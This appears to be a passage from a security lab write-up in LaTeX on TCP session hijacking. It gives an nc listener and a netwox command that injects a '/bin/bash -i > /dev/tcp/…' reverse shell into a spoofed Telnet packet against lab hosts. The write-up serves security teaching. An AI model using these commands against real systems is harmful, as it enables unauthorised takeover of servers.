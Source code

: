 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{Creating Reverse Shell Using TCP Session Hijacking}
\begin{par}This task follows up on injecting arbitrary code into spoofed TCP packets by executing a reverse shell, ultimately allowing the attacker to take control of the server. To perform a reverse shell, the attacker will need to open a Terminal console to listen to an incoming connection. The following code performs the abovementioned task.\end{par}
	\begin{verbatim}
	$ nc -l 9090 -v
	\end{verbatim}
	Again, we use Wireshark to analyse the next seqnum and acknum on the Telnet Data packet. From Figure \ref{fig:telnetinjectreverse}, we obtain the relevant details of the packet and execute the command to create a reverse shell.
\begin{figure}[H]
	\centering
	\texttt{[image: telnetinjectreverse]}
	\caption{Obtain Next seqnum \& acknum}
	\label{fig:telnetinjectreverse}
\end{figure}
\begin{verbatim}
# netwox 40 -g -i 0 -k 6 -G "" -E 254 -l 192.168.43.154 
-m 192.168.43.157 -o 49897 -p 23 -q 138267333 -r 688783074 -z -A 
-H "'/bin/bash -i > /dev/tcp/192.168.43.156/9090 0<&1 2>&1'0d0a" 
-j 64 -a "best"
\end{verbatim}
The executed command redirects the bash shell to the attacker's Terminal console and the system is now vulnerable, as can be seen in Figure \ref{fig:telnetinjectreversedone} where the \texttt{pwd} command reflects a different directory than when originally executed.
\begin{figure}[H]
	\centering
	\texttt{[image: telnetinjectreversedone]}
	\caption{Reverse Shell Obtained}
	\label{fig:telnetinjectreversedone}
\end{figure}


\begin{titlepage}
		\begin{center}
		\vspace*{27em}
		\Huge
			\textbf{Heartbleed Attack}
			\vfill
		\end{center}
	\end{titlepage}
	
\end{document}
